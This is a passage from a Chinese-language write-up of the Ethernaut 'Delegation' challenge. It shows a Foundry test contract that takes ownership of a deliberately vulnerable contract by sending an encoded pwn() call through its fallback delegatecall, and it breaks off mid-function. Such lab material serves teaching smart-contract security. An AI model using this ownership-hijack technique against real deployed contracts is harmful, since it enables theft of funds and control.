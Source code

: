 ## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Delegation.sol";

contract DelegationTest is Test {
    Delegate public delegate;
    Delegation public delegation;
    
    address public attacker = makeAddr("attacker");
    address public deployer = makeAddr("deployer");

    function setUp() public {
        vm.startPrank(deployer);
        
        // 部署 Delegate 合约
        delegate = new Delegate(deployer);
        
        // 部署 Delegation 合约
        delegation = new Delegation(address(delegate));
        
        vm.stopPrank();
    }

    function testDelegationExploit() public {
        console.log("Initial owner:", delegation.owner());
        console.log("Attacker address:", attacker);
        
        vm.startPrank(attacker);
        
        // 🎯 关键攻击：构造 pwn() 函数调用
        bytes memory payload = abi.encodeWithSignature("pwn()");
        
        // 通过 fallback 函数触发 delegatecall
        (bool success,) = address(delegation).call(payload);
        require(success, "Attack failed");
        
        vm.stopPrank();
        
        // 验证攻击成功
        assertEq(delegation.owner(), attacker);
        console.log("New owner:", delegation.owner());
        console.log("Attack successful!");
    }
    
    function testUnderstandDelegatecall() public {
        vm.startPrank(attacker);
        
        console.log("=== Before Attack ===");
        console.log("Delegation owner:", delegation.owner());
        console.log("Delegate owner:", delegate.owner());
        
        // 直接调用 delegate.pwn() 只会修改 delegate 的存储
        delegate.pwn();
        
        console.log("=== After direct call to Delegate.pwn() ===");
        console.log("Delegation owner:", delegation.owner()); // 不变
```